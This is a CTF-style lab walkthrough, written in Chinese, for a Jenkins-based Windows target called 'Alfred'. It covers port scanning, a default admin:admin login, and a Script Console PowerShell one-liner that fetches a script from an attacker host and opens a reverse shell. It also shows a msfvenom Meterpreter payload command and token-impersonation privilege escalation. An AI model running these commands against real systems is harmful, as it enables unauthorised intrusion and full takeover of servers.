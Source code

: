 # Alfred

### 1.How many ports are open? (TCP only)
nmap -Pn -sS -A -v -T4 IP地址<br>
[Alfred 1](./iamges/Alfred1.png)

### 2.What is the username and password for the login panel? (in the format username:password)
admin:admin弱密码<br>
[Alfred 2](./iamges/Alfred2.png)

### 3.What is the user.txt flag? 
Jenkins有一个配置错误，通过进入Manage Jenkins的Script Console页面可以执行代码。因此payload如下<br>
```powershell
powershell iex (New-Object Net.WebClient).DownloadString('http://10.10.248.101:8000/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.10.192.5 -Port 4444
```
在此之前需要用http.server搭好一个简单的http服务<br>
[Alfred 3](./iamges/Alfred3.png)<br>
开启另一个终端，nc监听4444端口<br>
[Alfred 4](./iamges/Alfred4.png)<br>
使用Build Now上传payload，获取shell，得到flag<br>
[Alfred 5](./iamges/Alfred5.png)<br>
[Alfred 6](./iamges/Alfred6.png)<br>
[Alfred 7](./iamges/Alfred7.png)<br>

### 4.Read the root.txt file located at C:\Windows\System32\config
下面需要提升权限，这次提升权限可以通过模拟令牌并迁移进程来达到，首先需要获取msf的shell更好利用payload<br>
```
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=IP LPORT=PORT -f exe -o shell-name.exe
``` 
生成一个反向shell，使用powershell命令下载并执行，获得msfshell<br>
[Alfred 8](./iamges/Alfred8.png)<br>
[Alfred 9](./iamges/Alfred9.png)<br>
whoami /priv 查看权限<br>
[Alfred 10](./iamges/Alfred10.png)<br>
SeDebugPrivilege和SeImpersonatePrivilege可利用，load incognito加载扩展，list_tokens -g列出令牌，BUILTIN\Administrators可用，impersonate_token "BUILTIN\Administrators"进行模拟<br>
[Alfred 11](./iamges/Alfred11.png)<br>
[Alfred 12](./iamges/Alfred12.png)<br>
然后ps查看进程，使用migrate迁移到service上，得到flag<br>
[Alfred 13](./iamges/Alfred13.png)<br>
[Alfred 14](./iamges/Alfred14.png)<br>
[Alfred 15](./iamges/Alfred15.png)<br>